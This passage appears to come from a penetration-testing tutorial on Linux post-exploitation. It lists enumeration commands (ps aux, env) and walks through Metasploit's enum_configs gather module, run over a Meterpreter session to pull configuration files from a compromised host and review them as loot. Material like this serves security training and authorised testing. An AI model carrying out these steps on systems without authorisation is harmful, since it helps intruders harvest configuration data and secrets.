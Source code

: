 #### Enumerating Processes

- List running processes:

    ```bash
    ps aux
    ```

#### Enumerating Environment Variables

- Display the environment variables:

    ```bash
    env
    ```

### Using Linux Post Exploitation Modules

#### Enum Configs Module

Search for the **Enum Configs** module:

```bash
search enum_configs
```

Use the module to enumerate configuration files on the target:

```bash
use post/linux/gather/enum_configs
```

Show the available options:

```bash
show options
```

Set the Meterpreter session (replace `[meterpreter session]` with the actual session number):

```bash
set session [meterpreter session]
```

Run the module to gather configuration files:

```bash
run
```

Review the gathered information using the **loot** command:

```bash
loot
```

Display the contents of a specific file:

```bash
cat [path]
```
